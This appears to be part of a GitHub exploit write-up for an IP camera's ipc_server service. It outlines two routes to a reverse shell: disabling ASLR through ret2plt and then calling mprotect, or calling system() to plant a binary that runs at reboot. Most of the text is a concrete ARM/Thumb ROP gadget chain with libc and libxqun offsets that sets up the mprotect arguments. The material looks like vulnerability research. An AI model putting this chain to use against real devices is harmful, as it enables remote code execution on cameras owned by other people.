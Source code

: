 <p align="center">
    <img src="https://user-images.githubusercontent.com/50701542/99968157-1164d880-2d99-11eb-8d1b-98a0c9d1ecba.png"  />
</p>

We haven't too many options to get a reverse shell from the camera. I mean, /dev/tcp is not present, nor perl, php, python, netcat, java and so on. This leaves us two options at least:

- Disable ASLR making /etc/starts to write 0 at /proc/sys/kernel/randomize_va_space via ret2plt in ipc_server (No PIE). Due to the watchdog I mentioned before the camera will restart, but /etc/starts will disable ASLR at startup before ipc_server is called. After that, we can call mprotect with with the appropriate parameters and make a segment of the stack executable, where our shellcode resides.


- Find offset to system at PLT or GOT in ipc_server (No PIE), point r0 to $SP + x and write our elf here. There are not much reverse shell options in the filesystem, so we can write our own binary and make it starts at next reboot. You can see what I mean by looking at the annotations in the repository script.

### 1st

Gadgets for mprotect metod:

~~~
#mprotect, r0 = aligned(4096)stack_addr, r1 = 0x01010101 , r2 = 7
(LIBC_BASE + 0x000385c8) #libc 0x000385c8: pop {r4, lr}; bx lr;
(0x44444444)
(LIBC_BASE + 0x000015a3) #libc thumb 0x000015a2 (0x000015a3): adds r1, #0xed; pop {r2, r5, r7, pc};
(0xFFFFFFFF) # 0xffffffff + 0x08 = 4294967303 = 0x100000007
(0x55555555)
#r2
#add 0x01 8 times because I didn't found a better way
(LIBXQUN_BASE + 0x0001d6d5)#libxqun THUMB 0x0001d6d4 (0x0001d6d5): pop {r1, r7, pc}; ------
(LIBC_BASE + 0x00069535)#libc THUMB 0x00069534 (0x00069535): adds r2, #1; bx r7;
(0x11111111)                                                                         #<----
(LIBXQUN_BASE + 0x0001d6d5)#libxqun THUMB 0x0001d6d4 (0x0001d6d5): pop {r1, r7, pc};
(LIBC_BASE + 0x00069535)#libc THUMB 0x00069534 (0x00069535): adds r2, #1; bx r7;
(0x11111111)
(LIBXQUN_BASE + 0x0001d6d5)#libxqun THUMB 0x0001d6d4 (0x0001d6d5): pop {r1, r7, pc};
(LIBC_BASE + 0x00069535)#libc THUMB 0x00069534 (0x00069535): adds r2, #1; bx r7;
(0x11111111)
(LIBXQUN_BASE + 0x0001d6d5)#libxqun THUMB 0x0001d6d4 (0x0001d6d5): pop {r1, r7, pc};
(LIBC_BASE + 0x00069535)#libc THUMB 0x00069534 (0x00069535): adds r2, #1; bx r7;
(0x11111111)
(LIBXQUN_BASE + 0x0001d6d5)#libxqun THUMB 0x0001d6d4 (0x0001d6d5): pop {r1, r7, pc};
(LIBC_BASE + 0x00069535)#libc THUMB 0x00069534 (0x00069535): adds r2, #1; bx r7;
(0x11111111)
(LIBXQUN_BASE + 0x0001d6d5)#libxqun THUMB 0x0001d6d4 (0x0001d6d5): pop {r1, r7, pc};
(LIBC_BASE + 0x00069535)#libc THUMB 0x00069534 (0x00069535): adds r2, #1; bx r7;
(0x11111111)
(LIBXQUN_BASE + 0x0001d6d5)#libxqun THUMB 0x0001d6d4 (0x0001d6d5): pop {r1, r7, pc};
(LIBC_BASE + 0x00069535)#libc THUMB 0x00069534 (0x00069535): adds r2, #1; bx r7;
(0x11111111)
(LIBXQUN_BASE + 0x0001d6d5)#libxqun THUMB 0x0001d6d4 (0x0001d6d5): pop {r1, r7, pc};
(LIBC_BASE + 0x00069535)#libc THUMB 0x00069534 (0x00069535): adds r2, #1; bx r7;
(0x11111111)
(0x77777777)

#go to the next mprotect argument, r0

(LIBC_BASE + 0x000385c8) #libc 0x000385c8: pop {r4, lr}; bx lr;
(0x44444444)
#r0
(LIBC_BASE + 0x0005e0cc)#libc 0x0005e0cc: pop {r1, pc};
(0xFFFFF001) #value to align  R0 && R1 (0xFFFFF001 - LSB of SP will always be 0)
(LIBC_BASE + 0x000385c8) #libc 0x000385c8: pop {r4, lr}; bx lr;
~~~